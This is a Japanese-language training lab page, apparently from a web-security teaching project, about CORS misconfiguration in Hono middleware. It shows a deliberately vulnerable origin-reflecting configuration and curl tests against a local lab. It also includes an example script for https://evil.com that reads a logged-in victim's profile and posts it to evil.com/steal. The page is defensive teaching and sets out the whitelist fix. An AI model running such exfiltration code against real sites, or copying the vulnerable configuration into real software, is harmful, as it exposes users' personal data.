


# CORS Misconfiguration — オリジン間リソース共有の設定不備

> CORSの設定ミスにより、任意の外部サイトからAPIを呼び出してユーザーの個人情報を窃取できてしまう脆弱性を学びます。

---

## 対象ラボ

| 項目 | 内容 |
|------|------|
| **概要** | `Access-Control-Allow-Origin` にリクエストの `Origin` ヘッダーをそのまま反映するため、悪意あるサイトからの fetch リクエストでも認証済みユーザーのデータにアクセスできる |
| **攻撃例** | 悪意あるサイト（`https://evil.com`）から `fetch('https://target.com/api/profile', {credentials: 'include'})` でユーザーデータを窃取 |
| **技術スタック** | Hono CORS ミドルウェア |
| **難易度** | ★★☆ 中級 |
| **前提知識** | Same-Origin Policy（同一オリジンポリシー）、CORSの基本、Cookie による認証の仕組み |

---

## この脆弱性を理解するための前提

### Same-Origin Policy と CORS の仕組み

ブラウザには **Same-Origin Policy（同一オリジンポリシー）** があり、あるオリジン（`プロトコル + ドメイン + ポート`）のスクリプトが別のオリジンのリソースにアクセスすることをデフォルトで禁止する。

```
https://app.example.com  → https://api.example.com/data  ← 異なるオリジン → ブロック
```

しかし、正規のフロントエンドが別ドメインのAPIにアクセスする必要がある場合、サーバーが **CORS（Cross-Origin Resource Sharing）** ヘッダーを返すことでアクセスを許可できる。

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://app.example.com
Access-Control-Allow-Credentials: true
```

ブラウザはこのヘッダーを確認し、許可されたオリジンからのリクエストのみレスポンスをスクリプトに渡す。

### どこに脆弱性が生まれるのか

開発者が「どのオリジンからでもアクセスできるようにしたい」と考え、リクエストの `Origin` ヘッダーの値をそのまま `Access-Control-Allow-Origin` に反映してしまう場合に問題が発生する。これは事実上、全てのオリジンを許可しているのと同じで、Same-Origin Policy が無効化される。

```typescript
// ⚠️ この部分が問題 — リクエストのOriginをそのまま反映
app.use('*', cors({
  origin: (origin) => origin,  // どんなオリジンでも許可
  credentials: true,           // Cookieの送信も許可
}));
```

特に `credentials: true` と組み合わせると、被害者のCookieが自動的に送信されるため、攻撃者は認証済みユーザーとしてデータにアクセスできる。

---

## 攻撃の仕組み



### 攻撃のシナリオ

1. **攻撃者** が悪意あるWebサイトを用意する

   攻撃者のサイト（`https://evil.com`）にJavaScriptを仕込み、ターゲットのAPIにリクエストを送信するコードを埋め込む。`credentials: 'include'` を指定することで、被害者のブラウザに保存されたCookieが自動的に送信される。

   ```javascript
   // evil.com に仕込まれたスクリプト
   fetch('https://target.com/api/profile', {
     credentials: 'include'  // Cookieを自動送信
   })
   .then(res => res.json())
   .then(data => {
     // 窃取したデータを攻撃者サーバーに送信
     fetch('https://evil.com/steal', {
       method: 'POST',
       body: JSON.stringify(data)
     });
   });
   ```

2. **被害者** が攻撃者のサイトにアクセスする

   被害者はメールやSNSのリンクから `https://evil.com` にアクセスする。被害者はターゲットサイトにログイン済みのため、ブラウザにはセッションCookieが保存されている。

3. **被害者のブラウザ** がCookie付きでAPIリクエストを送信する

   悪意あるスクリプトが実行され、`target.com` のAPIに対してCookie付きのリクエストが送信される。サーバーは `Access-Control-Allow-Origin: https://evil.com` を返すため、ブラウザはレスポンスをスクリプトに渡す。

   ```
   Request: Origin: https://evil.com
   Response: Access-Control-Allow-Origin: https://evil.com
             Access-Control-Allow-Credentials: true
   ```

4. **攻撃者** が被害者のデータを取得する

   レスポンスに含まれる個人情報（プロフィール、メールアドレス等）が攻撃者のサーバーに送信される。

### なぜ成功するのか

| 条件 | 説明 |
|------|------|
| Originの無条件反映 | サーバーがリクエストの `Origin` ヘッダーをそのまま `Access-Control-Allow-Origin` に設定し、全てのオリジンを許可してしまう |
| credentials: true | `Access-Control-Allow-Credentials: true` が設定されているため、クロスオリジンリクエストでもCookieが送信される |
| ログイン済み状態 | 被害者がターゲットサイトにログイン済みのため、Cookie内のセッション情報が自動送信される |

### 被害の範囲

- **機密性**: 認証済みユーザーの個人情報（プロフィール、メールアドレス、アカウント設定等）がクロスオリジンで窃取される
- **完全性**: POST/PUT/DELETE も許可されている場合、攻撃者がユーザーに代わってデータを変更・削除できる
- **可用性**: 大量のクロスオリジンリクエストによるAPIの過負荷の可能性がある

---

## 対策



### 根本原因

サーバーが **リクエストの `Origin` ヘッダーを無条件に信頼し、`Access-Control-Allow-Origin` に反映** していることが根本原因。CORS は「どのオリジンにアクセスを許可するか」を明示的に制御するための仕組みであり、全てのオリジンを許可するのは Same-Origin Policy を無効化するのと同じ。

### 安全な実装

許可するオリジンを明示的にホワイトリストで管理し、リクエストの `Origin` がリストに含まれる場合のみ許可する。

```typescript
// ✅ 許可するオリジンをホワイトリストで管理
const ALLOWED_ORIGINS = [
  'https://app.example.com',
  'https://admin.example.com',
];

app.use('*', cors({
  origin: (origin) => {
    // ホワイトリストに含まれるオリジンのみ許可
    return ALLOWED_ORIGINS.includes(origin) ? origin : '';
  },
  credentials: true,
}));
```

#### 脆弱 vs 安全: コード比較

```diff
  app.use('*', cors({
-   origin: (origin) => origin,  // どんなオリジンでも許可
+   origin: (origin) => {
+     return ALLOWED_ORIGINS.includes(origin) ? origin : '';
+   },
    credentials: true,
  }));
```

脆弱なコードではリクエストの `Origin` をそのまま反映するため任意のサイトからアクセスできる。安全なコードではホワイトリストに含まれるオリジンのみを許可し、未知のオリジンからのリクエストにはCORSヘッダーを返さない（ブラウザがレスポンスをスクリプトに渡さない）。

### その他の防御策

| 対策 | 種類 | 説明 |
|------|------|------|
| オリジンのホワイトリスト | 根本対策 | 許可するオリジンを明示的に列挙し、それ以外は拒否する。これが最も効果的で必須 |
| `Access-Control-Allow-Origin: *` と credentials の排他 | 根本対策 | `*` を指定する場合は `credentials: true` を設定しない。ブラウザは `*` と `credentials` の組み合わせを拒否する |
| プリフライトリクエストの適切な処理 | 多層防御 | `OPTIONS` リクエストで許可メソッドとヘッダーを厳密に指定する |
| CSRF トークン | 多層防御 | CORSとは別に、状態変更リクエストにCSRFトークンを要求する |

---

## ハンズオン手順

### Step 1: 脆弱バージョンで攻撃を体験

**ゴール**: 異なるオリジンからAPIを呼び出し、認証済みユーザーのデータを取得できることを確認する

1. 開発サーバーを起動する

   ```bash
   cd backend && pnpm dev
   ```

2. curlでCORSヘッダーの動作を確認する

   ```bash
   # 任意のオリジンでリクエスト
   curl -v http://localhost:3000/api/labs/cors-misconfiguration/vulnerable/profile \
     -H "Origin: https://evil.com" \
     -H "Cookie: session_id=valid-session"
   ```

3. 結果を確認する

   - レスポンスヘッダーに `Access-Control-Allow-Origin: https://evil.com` が含まれる
   - `Access-Control-Allow-Credentials: true` も返される
   - レスポンスボディにユーザーのプロフィール情報が含まれる
   - **この結果が意味すること**: 任意のオリジンからCookie付きでAPIを呼び出し、認証済みユーザーのデータにアクセスできる

### Step 2: 安全バージョンで防御を確認

**ゴール**: 同じ攻撃がオリジンホワイトリストにより失敗することを確認する

1. 安全なエンドポイントで同じ攻撃を試みる

   ```bash
   curl -v http://localhost:3000/api/labs/cors-misconfiguration/secure/profile \
     -H "Origin: https://evil.com" \
     -H "Cookie: session_id=valid-session"
   ```

2. 結果を確認する

   - `Access-Control-Allow-Origin` ヘッダーが返されない、または `https://evil.com` が含まれない
   - ブラウザはCORSヘッダーがないためレスポンスをスクリプトに渡さない

3. コードの差分を確認する

   - `backend/src/labs/step06-server-side/cors-misconfiguration.ts` の脆弱版と安全版を比較
   - **どの行が違いを生んでいるか** に注目: オリジンのホワイトリスト検証

### 確認ポイント

以下を自分の言葉で説明できれば、このラボは完了です:

- [ ] Same-Origin Policyが何を保護しているか、CORSがそれをどう緩和するか
- [ ] `Access-Control-Allow-Origin` にOriginを無条件反映すると何が起きるか
- [ ] `credentials: true` が攻撃を可能にする理由（Cookieの自動送信）
- [ ] 安全な実装は「なぜ」この攻撃を無効化するのか（ホワイトリストの仕組み）

---

## 実装メモ

| 項目 | パス |
|------|------|
| 脆弱エンドポイント | `/api/labs/cors-misconfiguration/vulnerable/profile` |
| 安全エンドポイント | `/api/labs/cors-misconfiguration/secure/profile` |
| バックエンド | `backend/src/labs/step06-server-side/cors-misconfiguration.ts` |
| フロントエンド | `frontend/src/features/step06-server-side/pages/CORSMisconfiguration.tsx` |

- 脆弱版では `origin: (origin) => origin` で全オリジンを許可
- 安全版ではホワイトリストで許可オリジンを制限
- ユーザーデータを返すエンドポイントで Cookie 認証を使用

---

## 現実世界での事例

| 年 | インシデント | 概要 |
|----|-------------|------|
| 2016 | Bitcoin Exchanges | 複数の仮想通貨取引所でCORS設定の不備が発見され、攻撃者が任意のサイトからAPI経由でユーザーの残高や取引履歴にアクセス可能だった |
| 2019 | Various Bug Bounties | HackerOneの複数のバグバウンティプログラムでCORS設定ミスが報告された。Originの正規表現マッチングの不備や、サブドメインの過剰許可が主な原因 |

---

## 関連ラボ

| ラボ | 関連性 |
|------|--------|
| [CSRF](../step03-auth/csrf.md) | CORSの設定ミスとCSRFは密接に関連する。CORSが正しく設定されていてもCSRFは防げない場合があり、逆もまた同様 |
| [セッション管理](../step04-session/session-fixation.md) | CORS設定ミスにより攻撃者がセッション情報にアクセスできると、セッションハイジャックにつながる |

---

## 参考資料

- [OWASP - CORS Misconfiguration](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/07-Testing_Cross_Origin_Resource_Sharing)
- [CWE-942: Permissive Cross-domain Policy with Untrusted Domains](https://cwe.mitre.org/data/definitions/942.html)
